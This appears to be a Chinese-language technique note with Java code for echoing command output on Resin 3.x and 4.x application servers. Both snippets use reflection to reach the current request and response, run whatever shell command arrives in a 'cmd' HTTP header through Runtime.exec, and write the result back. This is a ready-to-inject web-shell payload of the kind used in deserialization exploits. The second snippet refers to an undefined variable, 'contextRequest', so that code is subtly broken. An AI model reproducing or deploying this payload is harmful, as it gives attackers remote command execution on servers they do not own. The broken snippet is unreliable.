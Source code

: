 

回显思路

- 反射调用ServletInvocation.getContextRequest()获取HttpRequest对象
- 从父类AbstractHttpRequest中获取_response字段（response对象）
- 通过反射调用reponse对象的getWriter方法获取PrintWriter对象
- 通过PrintWriter对象的write方法写入需回显内容



代码实现

```java
// 获取ServletInvocation Class对象，反射调用getContextRequest方法获取ServletRequest对象
Object currentRequest = Thread.currentThread().getContextClassLoader().loadClass("com.caucho.server.dispatch.ServletInvocation").getMethod("getContextRequest").invoke(null);
// 从父类AbstractHttpRequest中获取response对象
Field _responseF = currentRequest.getClass().getSuperclass().getDeclaredField("_response");
_responseF.setAccessible(true);
Object response = _responseF.get(currentRequest);
// 获取getWriter方法
Method getWriterM = response.getClass().getMethod("getWriter");
// 调用getWriter获取Writer对象
Writer writer = (Writer)getWriterM.invoke(response);
// 获取getHeader方法
Method getHeaderM = currentRequest.getClass().getMethod("getHeader", String.class);
// 调用getHeader获取到通过需执行的命令：cmd
String cmd = (String)getHeaderM.invoke(currentRequest, "cmd");
// 执行命令
Scanner scanner = (new Scanner(Runtime.getRuntime().exec(cmd).getInputStream())).useDelimiter("\\A");
// 写入命令执行结果并回显
writer.write(scanner.hasNext() ? scanner.next() : "");
```



#### Resin 3.x & 4.x 

> 多版本适配、已测试 3.1.16、4.0.65

##### 基于 ServletInvocation

> 细节参考以上

代码实现

```java
Object currentRequest = Thread.currentThread().getContextClassLoader().loadClass("com.caucho.server.dispatch.ServletInvocation").getMethod("getContextRequest").invoke(null);
Field _responseF;
if(currentRequest.getClass().getName().contains("com.caucho.server.http.HttpRequest")){
    // 3.x 需要从父类中获取
    _responseF = currentRequest.getClass().getSuperclass().getDeclaredField("_response");
}else{
    _responseF = currentRequest.getClass().getDeclaredField("_response");
}
_responseF.setAccessible(true);
Object response = _responseF.get(currentRequest);
Method getWriterM = response.getClass().getMethod("getWriter");
Writer writer = (Writer)getWriterM.invoke(response);
Method getHeaderM = currentRequest.getClass().getMethod("getHeader", String.class);
String cmd = (String)getHeaderM.invoke(contextRequest, "cmd");
Scanner scanner = (new Scanner(Runtime.getRuntime().exec(cmd).getInputStream())).useDelimiter("\\A");
writer.write(scanner.hasNext() ? scanner.next() : "");
```
